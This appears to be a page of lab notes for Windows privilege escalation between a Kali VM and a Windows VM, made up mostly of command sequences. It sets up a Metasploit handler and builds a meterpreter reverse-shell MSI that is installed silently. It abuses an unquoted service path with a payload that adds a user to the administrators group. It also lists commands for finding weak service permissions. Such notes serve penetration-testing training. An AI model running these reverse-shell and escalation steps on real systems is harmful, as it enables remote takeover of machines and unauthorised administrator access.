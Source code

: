Kali VM
```
1. Open command prompt and type: msfconsole
2. In Metasploit (msf > prompt) type: use multi/handler
3. In Metasploit (msf > prompt) type: set payload windows/meterpreter/reverse_tcp
4. In Metasploit (msf > prompt) type: set lhost [Kali VM IP Address]
5. In Metasploit (msf > prompt) type: run
6. Open an additional command prompt and type: msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f msi -o setup.msi
7. Copy the generated file, setup.msi, to the Windows VM.
```
#### Windows VM
```
1.Place ‘setup.msi’ in ‘C:\Temp’.
2.Open command prompt and type: msiexec /quiet /qn /i C:\Temp\setup.msi
```
# Services
## Find Non-Standard Services
*Requires powershell*
```
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'} | findstr /v /i "Microsoft" | findstr /v /i "windows" | findstr /v /i "vmware"
```
## Unquoted Service Path
```
wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """
```
### Kali VM

*Note: On x64 machine you should use bat2exe.bat to create 64 bit executable*
```
1. Open command prompt and type: msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe
2. Copy the generated file, common.exe, to the Windows VM.
```
### Windows VM
```
1. Place common.exe in ‘C:\Program Files\Unquoted Path Service’.
2. Open command prompt and type: sc start unquotedsvc
3. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: net localgroup administrators
```
## Start mode of service
```
wmic service where caption="Serviio" get name, caption, state, startmode
```
## Permissions for all services
```
accesschk.exe -uwcqv * /accepteula
```
### Weak Service Permissions
Find Services that can be modified
```
accesschk.exe -uwcqv "Everyone" * /accepteula
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -uwcqv "Power Users" * /accepteula
accesschk.exe -uwcqv "Users" * /accepteula
```